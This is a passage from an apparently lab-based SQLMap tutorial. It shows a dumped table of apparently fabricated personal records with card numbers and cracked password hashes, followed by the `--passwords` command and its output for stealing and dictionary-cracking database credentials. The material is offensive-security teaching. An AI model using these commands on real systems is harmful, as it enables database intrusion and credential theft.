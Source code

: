 ```shell-session
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| 1 | 5387278172507117 | Maynard Rice | MaynardMRice@yahoo.com | 281-559-0172 | 1698 Bird Spring Lane | March 1 1958 | 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052) | Linemen |
| 2 | 4539475107874477 | Julio Thomas | JulioWThomas@gmail.com | 973-426-5961 | 1207 Granville Lane | February 14 1972 | 10945aa229a6d569f226976b22ea0e900a1fc219 (taqris) | Agricultural product sorter |
| 3 | 4716522746974567 | Kenneth Maloney | KennethTMaloney@gmail.com | 954-617-0424 | 2811 Kenwood Place | May 14 1989 | a5e68cd37ce8ec021d5ccb9392f4980b3c8b3295 (hibiskus) | General and operations manager |
| 4 | 4929811432072262 | Gregory Stumbaugh | GregoryBStumbaugh@yahoo.com | 410-680-5653 | 1641 Marshall Street | May 7 1936 | b7fbde78b81f7ad0b8ce0cc16b47072a6ea5f08e (spiderpig8574376) | Foreign language interpreter |
| 5 | 4539646911423277 | Bobby Granger | BobbyJGranger@gmail.com | 212-696-1812 | 4510 Shinn Street | December 22 1939 | aed6d83bab8d9234a97f18432cd9a85341527297 (1955chev) | Medical records and health information technician |
| 6 | 5143241665092174 | Kimberly Wright | KimberlyMWright@gmail.com | 440-232-3739 | 3136 Ralph Drive | June 18 1972 | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609) | Electrologist |
| 7 | 5503989023993848 | Dean Harper | DeanLHarper@yahoo.com | 440-847-8376 | 3766 Flynn Street | February 3 1974 | 2b89b43b038182f67a8b960611d73e839002fbd9 (raided) | Store detective |
| 8 | 4556586478396094 | Gabriela Waite | GabrielaRWaite@msn.com | 732-638-1529 | 2459 Webster Street | December 24 1965 | f5eb0fbdd88524f45c7c67d240a191163a27184b (ssival47) | Telephone station installer |
```

We can see in the previous example that SQLMap has automatic password hashes cracking capabilities. Upon retrieving any value that resembles a known hash format, SQLMap prompts us to perform a dictionary-based attack on the found hashes.

Hash cracking attacks are performed in a multi-processing manner, based on the number of cores available on the user's computer. Currently, there is an implemented support for cracking 31 different types of hash algorithms, with an included dictionary containing 1.4 million entries (compiled over the years with most common entries appearing in publicly available password leaks). Thus, if a password hash is not randomly chosen, there is a good probability that SQLMap will automatically crack it.

---

## DB Users Password Enumeration and Cracking

Apart from user credentials found in DB tables, we can also attempt to dump the content of system tables containing database-specific credentials (e.g., connection credentials). To ease the whole process, SQLMap has a special switch`--passwords` designed especially for such a task:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch

...SNIP...
[14:25:20] [INFO] fetching database users password hashes
[14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'debian-sys-maint'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[14:25:20] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
```